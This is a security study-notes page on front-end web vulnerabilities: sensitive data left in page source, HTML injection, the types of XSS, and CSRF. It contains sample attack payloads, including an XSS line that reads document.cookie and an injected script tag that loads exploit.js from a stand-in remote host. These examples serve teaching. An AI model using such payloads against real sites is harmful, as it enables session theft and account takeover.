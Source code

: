 # 🌂 Front End Vulnerabilities

## Sensitive Data Exposure

[Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3\_2017-Sensitive\_Data\_Exposure) refers to the availability of sensitive data in clear-text to the end-user.

It can be utilized to gain access to sensitive functionality (i.e., an admin panel), which may lead to compromising the entire server.

#### Example:

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

And if we look at the page source:

```html
<form action="action_page.php" method="post">

    <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" required>

        <label for="psw"><b>Password</b></label>
        <input type="password" required>

        <!-- TODO: remove test credentials test:test -->

        <button type="submit">Login</button>
    </div>
</form>

</html>
```

Good to note that these human flaws are not very common but we could find other things such as test pages or directories, debugging parameters, or hidden functionality.

## HTML Injection

Another major aspect of front end security is validating and sanitizing accepted user input.

[HTML injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/11-Client-side\_Testing/03-Testing\_for\_HTML\_Injection) occurs when unfiltered user input is displayed on the page.

When a user has complete control of how their input will be displayed, they can submit `HTML` code, and the browser may display it as part of the page. This may include a malicious `HTML` code, like an external login form, which can be used to trick users into logging in while actually sending their login credentials to a malicious server to be collected for other attacks.

Let's say we have this simple input page:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

If there is no sanitizing and we input this malicious code:

```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

The website will look like this:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Scripting (XSS)

[Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) attacks works by injecting `JavaScript` code to be executed on the client-side. Once we can execute code on the victim's machine, we can potentially gain access to the victim's account or even their machine.

here are the main types:

| Type            | Description                                                                                                                               |
| --------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `Reflected XSS` | Occurs when user input is displayed on the page after processing (e.g., search result or error message).                                  |
| `Stored XSS`    | Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).                    |
| `DOM XSS`       | Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title). |

We saw earlier the HTML injection, from that input, we could've printed out the session cookie via a DOM based XSS:

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Cross-Site Request Forgery (CSRF)

&#x20;[Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf) is caused by unfiltered user input and is used to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.

Another way of exploiting this would be to instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```
